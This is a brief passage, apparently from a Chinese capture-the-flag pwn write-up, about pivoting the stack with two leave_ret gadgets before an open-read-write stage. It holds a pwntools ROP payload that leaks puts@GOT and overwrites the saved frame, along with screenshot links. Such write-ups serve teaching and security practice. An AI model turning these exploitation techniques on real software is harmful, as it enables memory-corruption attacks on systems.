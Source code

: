 两次 leave\_ret 将 rsp 矫正

[![](assets/1701606597-c4cef843a20806b6eabc2d3cc659d768.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170511-3f377bd0-845f-1.png)

[![](assets/1701606597-ef0d91dab735a31157ca0ab5f91aa4e2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170515-41f63c76-845f-1.png)

**orw：**

布置为 stack\_addr+0x28-8，执行 orw

```plain
payload = p64(stack_addr+0xb0+0x28) 
payload += p64(pop_rdi)+p64(elf.got["puts"])+p64(elf.plt["puts"])+p64(0x401378) 
payload = payload.ljust(0xb0,b'\0')
payload+= p64(stack_addr)+p64(0x4012e0)
p.send(payload)
```

[![](assets/1701606597-55e80d57047948f26a843b42ed0c1ea8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116170522-45cc390e-845f-1.png)
